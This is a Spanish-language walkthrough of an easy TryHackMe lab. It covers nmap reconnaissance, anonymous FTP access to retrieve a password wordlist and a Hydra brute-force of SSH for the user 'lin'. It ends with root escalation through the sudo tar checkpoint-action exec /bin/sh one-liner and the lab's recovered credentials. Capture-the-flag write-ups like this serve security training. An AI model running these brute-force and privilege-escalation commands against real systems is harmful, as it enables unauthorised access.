Bienvenidos nuevamente a otra sala de tryhackme. En esta ocasion les traigo una maquina con dificultad facil en donde tendremos que hacer uso del puerto #ftp, secuestrar las credenciales utilizando #Hydra para luego acceder al sistema via #ssh y escalar privilegios al sistema raiz utilizando #tar .

# Recon

Iniciamos nuestro reconocimiento utilizando __nmap__. Le diremos que escanee todos los puertos abiertos, con una tasa de paquetes de 5000, en modo sigiloso sin activar las alertas de seguridad y haciendo el escaneo mas rapido, tambien le diremos que no compruebe si el objetivo este en linea, que no resuelva los nombres del host durante el escaneo evitando que los servidores __DNS__ registren el escaneo y haciendo el escaneo mucho mas rapido, tambien que nos muestre la version del servicio, y lo resuelva todo en modo agresivo "__T4__", usamos verbose para ver el progreso del escaneo y que guarde todo el proceso en formato normal, para luego poder echarle un vistazo siempre que querramos. Ejecutaremos nuestro comando : `sudo nmap  -p- --open --min-rate 5000 -sS -Pn -n -sV -T4 -vvv IPTARGET -oN nmap`

```ruby
Nmap scan report for IPTARGET
Host is up, received user-set (0.23s latency).
Scanned at 2023-04-26 18:44:10 EDT for 33s
Not shown: 55529 filtered tcp ports (no-response), 10003 closed tcp ports (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap

```

Nuestro escaneo nos muestra 3 puertos abiertos. Maquina linux, con servidor Apache. Tendremos el servicio #ftp que se usa para transferir archivos, por lo que tendremos que echar un vistazo para encontrar algo que nos interese.

# Intrusion

Para entrar al servicio #ftp utilizaremos el siguiente comano `ftp IPTARGET` y pondremos como nombre de usuario **Anonymous**, no nos pedira password por lo que obtenemos automaticamente acceso. Listamos con `ls` y nos transferimos los archivos que aparecen.

> `get task.txt`
> `get locks.txt`

Obtendremos una wordlists que pertenece al usuario **lin**. En estos casos utilizamos #hydra con la wordlist que nos transferimos anteriormente **locks.txt** para descubrir la password y conectarnos via #ssh al sistema.
Ejecutamos  :  `hydra -l lin -P locks.txt IPTARGET ssh

Una vez obtenida la password, nos conectaremos via #ssh. `ssh lin@IPTARGET`.
Nos pedira la password y accedemos al sistema.

# Priv. Escalation

Listamos permisos de superusuario `sudo -l` 
Averiguamos los comandos que puede ejecutar **lin**, En este caso, el usuario lin puede ejecutar comandos como **root** dentro de **/bin/tar**.

Nos dirigiremos a https://gtfobins.github.io/, y buscaremos **/tar**. Podremos escalar privilegios a usuario root utilizando el comando que nos proporciona la pagina . 
`sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`

# Respuestas 

#credentials = lin:RedDr4gonSynd1cat3



